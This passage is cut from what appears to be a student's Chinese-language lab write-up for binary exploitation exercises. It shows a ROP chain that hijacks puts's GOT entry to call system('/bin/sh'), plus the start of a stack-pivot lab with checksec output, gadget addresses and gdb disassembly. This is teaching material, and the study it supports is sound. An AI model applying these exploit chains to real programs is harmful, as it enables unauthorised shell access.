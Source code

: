     # fetch user input -> /bin/sh\x00
    pop_rdi_ret
    bss_addr
    gets_plt,
    ```
    此時他就會像使用者要輸入，並把我們的輸入丟到bss address
4. 另外一個問題就是我們要怎麼呼叫==system==，因為這個binary是動態的，代表一開始沒有link到system的話就不能直接呼叫，因此我們可以利用同樣的方法達到==got hijacking==
    ```python
    # fetch user input -> system address
    pop_rdi_ret
    puts_got
    gets_plt
    ```
    此時我們可以輸入system的address，經過這三行後我們就成功把puts got address換成system got address
5. 所有工具都準備好了，接下來只要呼叫puts就可以了，實際上就是呼叫system
    ```python
    # system('/bin/sh\x00')
    pop_rdi_ret
    bss_addr
    puts_plt
    ```

## Lab-Stack Pivot
Flag: `flag{Y0u_know_hoW2L3@k_canAry}`

### 解題流程與思路
這一題助教是預設我們必須要使用stack pivot的技巧拿到flag，不過沒有時間設定seccomp，所以我們自己假裝只能使用read / write / open這三個syscall
1. checksec + file
    ```bash
    $ checksec chal
    [*] '/mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_stack_pivot/share/chal'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    $ file chal
    chal: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=26fa8e6daa97baf7a26596ea91af5703dd932327, for GNU/Linux 3.2.0, not stripped
    ```
    首先可以看到該binary是statically link，所以直覺是利用ROP chain拿到shell，不過仔細看source code會發現BOF的長度顯然不太夠我們蓋成shell，所以需要用到stack pivot的技巧，控制RBP跳到其他的地方繼續寫
2. 找gadget
    ```python
    leave_ret = 0x0000000000401cfc
    pop_rdi_ret = 0x0000000000401832
    pop_rsi_ret = 0x000000000040f01e
    pop_rax_ret = 0x0000000000448d27
    pop_rdx_ret = 0x000000000040173f
    syscall_ret = 0x0000000000448280
    ```
    這邊的重點是syscall ret這個gadget，其實他不是syscall完之後直接ret，而是在經過一些判斷才會進到ret，這個可以從gdb看出來
    ```bash
    gef➤  x/10i 0x448280
       0x448280 <read+16>:  syscall
    => 0x448282 <read+18>:  cmp    rax,0xfffffffffffff000
       0x448288 <read+24>:  ja     0x4482e0 <read+112>